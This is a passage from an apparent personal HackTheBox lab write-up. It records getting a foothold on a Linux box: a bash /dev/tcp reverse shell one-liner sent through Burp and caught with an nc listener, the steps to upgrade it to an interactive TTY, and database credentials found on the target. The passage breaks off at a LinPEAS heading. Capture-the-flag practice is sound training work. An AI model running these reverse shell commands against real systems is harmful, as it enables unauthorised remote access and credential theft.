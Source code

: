 ```
bash -c 'bash -i >& /dev/tcp/10.10.14.2/9001 0>&1'
```

![[HackTheBox/Linux/attachments/Pasted image 20250509214756.png]]

Highlight and select CTRL + U to url encode :)
 ![[HackTheBox/Linux/attachments/Pasted image 20250509214843.png]]

💡Log terminal output 💡- This will save whatever subsequent terminal commands and output to a log file

```
script web-shell.log
```

![[HackTheBox/Linux/attachments/Pasted image 20250509215129.png]]

Set up nc listener 
```
nc -lvnp 9001
```

Send the reverse shell request in Burp an catch the reverse shell

![[HackTheBox/Linux/attachments/Pasted image 20250509215232.png]]

Get an interactive shell 

```
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

Hit CTRL + Z

```
stty raw -echo
```

```
export TERM=xterm
```

![[HackTheBox/Linux/attachments/Pasted image 20250509215618.png]]

### Enumeration for Priv Esc from www-data 

Checking out the image files in the home directory in the web browser..?

![[HackTheBox/Linux/attachments/Pasted image 20250509215938.png]]

Find a database file with creds
![[HackTheBox/Linux/attachments/Pasted image 20250509220033.png]]
`sql:theseus:iamkingtheseus`

#### Running LinPEAS
